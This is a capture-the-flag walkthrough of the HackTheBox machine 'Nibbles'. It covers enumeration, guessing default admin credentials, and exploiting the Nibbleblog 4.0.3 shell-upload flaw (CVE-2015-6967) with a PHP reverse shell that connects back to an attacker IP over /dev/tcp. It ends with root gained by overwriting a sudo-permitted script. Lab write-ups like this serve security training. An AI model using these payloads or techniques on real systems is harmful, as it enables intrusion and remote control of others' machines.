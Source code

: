 ```yaml
---
title: HackTheBox - Nibbles
date: 2020-12-23 23:37:00 +0100
categories: [Hackthebox walkthroughs, Linux, Easy]
tags: [htb-linux-easy, nibbleblog, default credentials, CVE-2015-6967, metasploit, meterpreter, reverse-shell, sudo misconfiguration, writeup, oscp-prep]
image: https://amirr0r.github.io/assets/img/htb/machines/linux/easy/nibbles/nibbles.png
---
```


## Foothold

### `nmap` scan (open ports)

```bash
$ nmap -min-rate 5000 --max-retries 1 -sV -sC -p- -oN Nibbles-full-port-scan.txt 10.10.10.75
Warning: 10.10.10.75 giving up on port because retransmission cap hit (1).
Nmap scan report for 10.10.10.75
Host is up (0.096s latency).
Not shown: 65508 closed ports
PORT      STATE    SERVICE    VERSION
22/tcp    open     ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
80/tcp    open     http       Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
4418/tcp  filtered axysbridge
```

### Apache/4.18 (port 80)

By inspecting the sources on port 80, we see there is a hidden directory `/nibbleblog/`:

![view-source-hidden-dir](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/nibbles/view-source-hidden-dir.png)

Once we wo to his "hidden" directory we see that is qa website powered by [**Nibbleblog**](http://www.nibbleblog.com/), which turns out to be an open source CMS for blogs: 

![nibbleblog](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/nibbles/nibbleblog.png)

While I was navigating on the website, I encountered the following error:

![XML error](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/nibbles/XML-error.png)

Maybe there is something to do with it, but let's continue our enumeration.

#### Nibbleblog

Since I'm looking for more information, I ran `dirb` on [http://10.10.10.75/nibbleblog/](http://10.10.10.75/nibbleblog/):

![dirb](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/nibbles/dirb.png)

On [http://10.10.10.75/nibbleblog/README](http://10.10.10.75/nibbleblog/README), we get the version number (`v4.0.3`) of **Nibbleblog**:

![version](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/nibbles/version.png)

Bibbidi-Bobbidi-Boo...there is an exploit available!

![searchsploit](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/nibbles/searchsploit.png)

But it requires credentials so we have to go further:

![exploit-options](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/nibbles/exploit-options.png)

#### Credentials

I made a quick search &rarr; _"nibbleblog default credentials"_. Unfortunately, I didn't find anything. \

Nevertheless, there is an admin's page: [http://10.10.10.75/nibbleblog/admin.php](http://10.10.10.75/nibbleblog/admin.php). We can try some basic username/password combinations like `admin/admin`, `root/root` or even `nibbles/nibbles`.

`admin/nibbles` worked:

![success](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/nibbles/success.png)

#### Metasploit

Let's go back to the exploit:

![msf](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/nibbles/msf.png)

By doing so, we have a meterpreter. That's nice, but in order to avoid this "black box" method, let's exploit the vulnerability without this tool.

#### [CVE-2015-6967](https://cvedetails.com/cve/CVE-2015-6967/) exploitation

Thanks to [https://packetstormsecurity.com/files/133425/NibbleBlog-4.0.3-Shell-Upload.html](https://packetstormsecurity.com/files/133425/NibbleBlog-4.0.3-Shell-Upload.html), we can follow the steps to perform the exploit:

![packetstorm](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/nibbles/packetstorm.png)

1. Prepare our PHP reverse shell:

```php
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.7/1234 0>&1'");
```

2. Upload our malicious file to [http://10.10.10.75/nibbleblog/admin.php?controller=plugins&action=config&plugin=my_image](http://10.10.10.75/nibbleblog/admin.php?controller=plugins&action=config&plugin=my_image):

![plugins > my image](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/nibbles/my_image.png)

3. Run a listener &rarr; `nc -lnvp 1234`

4. Visit [http://10.10.10.75/nibbleblog/content/private/plugins/my_image/image.php](http://10.10.10.75/nibbleblog/content/private/plugins/my_image/image.php). Now we have a shell:

![shell](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/nibbles/shell.png)

## User (nibbler)

```bash
nibbler@Nibbles:/var/www/html/nibbleblog/content/private/plugins/my_image$ cd /home
<ml/nibbleblog/content/private/plugins/my_image$ cd /home                    
nibbler@Nibbles:/home$ ls
ls
nibbler
nibbler@Nibbles:/home$ cd nibbler
cd nibbler
nibbler@Nibbles:/home/nibbler$ ls -la
ls -la
total 20
drwxr-xr-x 3 nibbler nibbler 4096 Dec 29  2017 .
drwxr-xr-x 3 root    root    4096 Dec 10  2017 ..
-rw------- 1 nibbler nibbler    0 Dec 29  2017 .bash_history
drwxrwxr-x 2 nibbler nibbler 4096 Dec 10  2017 .nano
-r-------- 1 nibbler nibbler 1855 Dec 10  2017 personal.zip
-r-------- 1 nibbler nibbler   33 Dec 23 15:17 user.txt
nibbler@Nibbles:/home/nibbler$ cat user.txt
cat user.txt
e598bb90bc9ff2f87b72e2083c1cb95a
nibbler@Nibbles:/home/nibbler$
```

Let's see what we can run with `sudo`:

```bash
$ sudo -l 
sudo: unable to resolve host Nibbles: Connection timed out
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```

## Root

Okay so we just have to replace `/home/nibbler/personal/stuff/monitor.sh` by malicious content:

```bash
nibbler@Nibbles:/home/nibbler$ mkdir -p personal/stuff
nibbler@Nibbles:/home/nibbler$ echo "cat /root/root.txt" > /home/nibbler/personal/stuff/monitor.sh
nibbler@Nibbles:/home/nibbler$ sudo /home/nibbler/personal/stuff/monitor.sh
sudo: unable to resolve host Nibbles: Connection timed out
b59ce6c276598083872b41d4785c3e8
```

___

## Useful links

- [CVE-2015-6967](https://cvedetails.com/cve/CVE-2015-6967/)
- [Packetstorm NibbleBlog 4.0.3 Shell Upload](https://packetstormsecurity.com/files/133425/NibbleBlog-4.0.3-Shell-Upload.html)

